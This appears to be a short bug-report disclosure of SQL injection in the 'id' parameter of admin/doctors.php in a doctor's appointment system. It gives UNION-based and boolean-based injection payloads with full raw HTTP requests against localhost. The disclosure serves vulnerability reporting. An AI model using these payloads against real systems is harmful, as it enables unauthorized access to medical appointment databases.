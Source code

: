 # Doctor's Appointment System v1.0 has SQL injection

BUG_Author:yastar

Website source code address: https://www.sourcecodester.com/hashenudara/simple-doctors-appointment-project.html

Vulnerability File: /edoc-doctor-appointment-system-main/admin/doctors.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:action=view&id=-1' union all select null,null,concat(0x616263,0x7576777879),null,null,null,null-- -

```
GET /edoc-doctor-appointment-system-main/admin/doctors.php?action=view&id=-1%27%20union%20all%20select%20null,null,concat(0x616263,0x7576777879),null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=d9qr4g4i28uhmlj66islpcjone
Connection: close
```

union query success

![image](https://github.com/Yastar/bug_report/blob/main/sql1.png)

Payload2:action=view&id=1' and 666=666 and 'z'='z

```
GET /edoc-doctor-appointment-system-main/admin/doctors.php?action=view&id=1%27%20and%20666=666%20and%20%27z%27=%27z HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=d9qr4g4i28uhmlj66islpcjone
Connection: close
```

Boolean judgment is correct, and the page displays normally

![image](https://github.com/Yastar/bug_report/blob/main/sql2.png)
